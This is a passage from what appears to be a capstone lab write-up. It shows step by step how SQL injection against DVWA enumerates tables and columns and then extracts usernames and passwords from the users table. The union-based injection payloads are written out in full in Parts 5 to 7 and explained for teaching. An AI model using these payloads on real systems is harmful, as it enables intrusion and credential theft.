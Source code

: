 The payload  ```1' OR 1=1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#``` is a targeted SQL injection attack used to enumerate table names in a specific database

  •  ```FROM information_schema.tables``` : This specifies that the attacker is querying the information_schema.tables, a special table in most SQL databases that contains metadata about all tables in the database.
  
  •  ```WHERE table_type='base table' AND table_schema='dvwa'``` : This clause filters the results to include only base tables (as opposed to views) from the dvwa database. It ensures the attacker retrieves only relevant table names.


<p align="center">
<img src="https://github.com/user-attachments/assets/48e43d44-854d-4abe-b0c3-06a1c23d5a2a">
</p>


Two tables were identified: guestbook and users.
Note: The users table is the most interesting, as it may contain usernames and passwords.


**Part 6.** Retrieve column names from the users table.

The SQL injection payload ```1' OR 1=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'#``` is designed to extract the column names from a specific table (in this case, the users table) in a database.

  • ```WHERE table_name='users'```: This clause filters the results to only include columns from the users table.


<p align="center">
<img src="https://github.com/user-attachments/assets/66f248ac-9e98-4e34-a968-942c8e49beec">
</p>



Note: The user column and the password column are of interest because they seem to contain information that can be used for unauthorized access.


**Part 7.** Retrieve the user credentials.

The SQL injection payload ```1’ OR 1=1 UNION SELECT user, password FROM users #``` is designed to extract sensitive user data (specifically usernames and passwords) from a database.

   •  ```UNION SELECT user, password``` : In this case, the attacker wants to retrieve the user and password fields from the users table.
   
   •  ```FROM users``` : This specifies the table from which the attacker wants to retrieve the user and password columns.


<p align="center">
<img src="https://github.com/user-attachments/assets/b6c34e9e-f8be-437a-a939-f56d01509b6c">
</p>


Note: The admin account, it probably has the greatest rights and privileges on the system; however, in this capstone project, I will focus on examining the gordonb account.
